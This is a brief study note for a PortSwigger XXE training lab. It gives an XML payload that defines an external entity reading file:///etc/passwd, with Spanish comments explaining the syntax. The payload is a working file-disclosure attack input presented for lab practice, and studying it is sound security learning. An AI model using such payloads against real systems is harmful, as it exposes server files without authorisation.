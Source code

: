 # Lab 1 XXE using external entities to retrieve files 

Tags: #XXE #PortSwigger 

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>      
	<root>
		&myFile;
	</root>

	<!-- Colocamos la ruta abosluta del archivo, lleva dos // mas porque es similar al http:// = file://   -->
	<!-- SYSTEM = Cargar una entidad externa, como si fuera una URL de un servidor externo-->
```